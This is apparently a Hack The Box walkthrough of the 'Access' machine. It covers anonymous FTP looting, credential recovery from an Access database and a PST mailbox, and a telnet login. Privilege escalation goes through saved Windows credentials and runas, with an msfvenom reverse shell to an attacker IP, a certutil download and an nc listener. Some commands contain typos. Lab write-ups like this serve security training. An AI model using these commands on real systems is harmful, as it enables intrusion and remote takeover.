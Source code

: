 # Access [htb](https://app.hackthebox.com/machines/Access)
![Access-01]()


## Recon

Before we start enumeration, let's add the target to our `/etc/hosts` file:
![hosts-02]()


Running nmap:

`nmap -sC -sV -p- -A access.htb -oN nmap.result`

![nmap-res-03]()


We have the following:

+ FTP on port 21 (appears to permit anonymous logins).
+ Telnet on port 23. 
+ An IIS v7.5 server on port 80. 


We should start with the FTP server and see if we can find interesting information, or maybe 
misconfiguration of privileges. We then should take a look at the IIS server, and finally telnet 
at the end if we get stuck. 



### FTP 21

Let's login anonymously with `anonymous : anonymous`: 

![anon-ftp-04]()


We have two folders: 
+ Backups
+ Engineer


Lets cd into `Backups` and see what we can find: 

![ftp-backups-05]()


Looks like we have an `.mdb` database here. Lets switch to binary mode and get this to our kali. 

![get-db-06]()


We can open this type of database [online](https://www.mdbopener.com/): 

![open-db-07]()


we get a list of all the tables in the database, and we can view them online. Iv'e found a couple
of interesting tabels. Primarly: 

+ auth_user - This is the user table with clear-text credentials. 

![auth-user-08]()

+ action_log - Stores action performed by the admin when setting up the database. 
+ USERINFO   - Inforamtion about users. 
+ auth_group - An administration group name and permissions. 

 
The `auth-user` is of most interest to us, we should try to use these credentials on the IIS 
server. But before we do that, there was another folder on the FTP, `Engineer`, 
and we have a user named engineer in the db. Lets see what we can find. 

![engineer-ftp-09]()

Looks important. Lets put this on our Kali: 

![get-acl-10]()


If we examine the file with `file access_control.zip` (i renamed it): 

![file-acl-11]()


We can see it's an AES encrypted ZIP archive. You can try to use `zip2john`, then crack it with 
john`, wont work, we have the credetilas for this archive. 

Use `7za` to decompress the arachive: 

`7za e access_control.zip`


![extract-12]()


This gives us a `.pst` file (personal storage table), which is a file format Microsoft programs 
use to store items like calendar events, contacts, and email messages. PST files are stored 
within popular Microsoft software like `Microsoft Exchange`, `Windows Messaging`, 
and `Microsoft Outlook`.

We can open `.pst` files on Kali using `readpst`: 

`apt install pst-utils`


Then read the file with `readpst acl.pst` (renamed the file). 

![readpst-13]()


This outputs an `.mbox` file we can read on Unix with `less acl.mbox`:

![mail-14]()


We found another user account, this time for a uyser named "security". This user didnt show 
up in the `auth-user` table from before. Lets take a look at the web-sever. 



### IIS 80

If we open our browser and navigate towards `http://access.htb/` we get the following page:

![site-15]()

Not much to do here, Lets try directory busting with: 

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://access.htb/FUZZ`


Nothing comes up. The site is empty, lets try the telnet. 


### Telnet 23

If we connect to the server with `telnet access.htb`, and wait just a sec... we will be prompted
for credentials: 

![shell-16]()

Use the credetials we got from the email `security : `4Cc3ssC0ntr0ller`.  
Lets move to priv esc. 



## Privilege Escalation

If we list out our user privileges: 

![privs-17]()


Nothing interesting comes out. If we list out `systeminfo` : 

![sysinfo-18]()

We can see wer'e running a 2008 server V6.1.7600. We can check exploits but there is a faster way.
Lets search for stored credentials with `cmdkey /list`

![creds-19]()


We can now use `runas` to take the admins passwords and run a reverse shell payload.

+ First we need some venom: 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.68 LPORT=9009 -f exe > rshell.exe`

![venom-20]()


+ Start a python server with:

`python3 -m htp.server 80`


+ Download the shellcode to the target with:

`ertutil -urlcache -f http://10.10.14.68/rshell.exe rshell.exe`


+ Start the listner with: 

`nc -lnvp 9009`


+ Exeecute the payload as Administrator:

`runas /savecred /user:ACCESS\Administrator "C:\\Users\security\rshell.exe"`


+ Get a shell:

![root-20]()
